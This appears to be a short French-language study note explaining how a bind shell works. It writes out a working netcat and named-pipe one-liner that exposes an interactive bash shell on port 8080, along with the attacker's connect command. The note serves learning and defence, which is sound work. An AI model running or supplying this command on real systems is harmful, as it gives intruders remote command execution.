 - Le **bind shell** ouvre un port sur la machine compromise et attend qu’un attaquant s’y connecte.
    
- Une fois connecté, l’attaquant obtient un shell et peut exécuter des commandes à distance.
    
- Utile si la victime **ne peut pas établir de connexions sortantes**, mais moins discret car le port reste ouvert → plus facilement détectable.
---
### Fonctionnement

1. **Configuration du bind shell sur la victime**  
    Exemple de payload :
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
- rm -f /tmp/f  : supprime un ancien pipe.
    
- `mkfifo /tmp/f` : crée un **pipe nommé** pour la comm. bidirectionnelle.
    
- `cat /tmp/f` : lit les entrées.
    
- `| bash -i 2>&1` : lance un shell interactif.
    
- `| nc -l 0.0.0.0 8080` : Netcat en mode écoute sur le port 8080.
    
- `>/tmp/f` : renvoie la sortie dans le pipe pour garder la communication.
⚠️Ports < 1024 nécessitent des privilèges root → ici on utilise **8080** pour éviter ça.
2. **Connexion de l’attaquant** 
``` bash
nc -nv TARGET_IP 8080
```
**Résultat**
- L’attaquant obtient un terminal interactif
Un **bind shell** met la victime en écoute, et l’attaquant vient s’y connecter.  
C’est l’inverse du **reverse shell** : ici c’est la machine compromise qui attend, alors que dans le [[Reverse Shell]], c’est elle qui initie la connexion.ss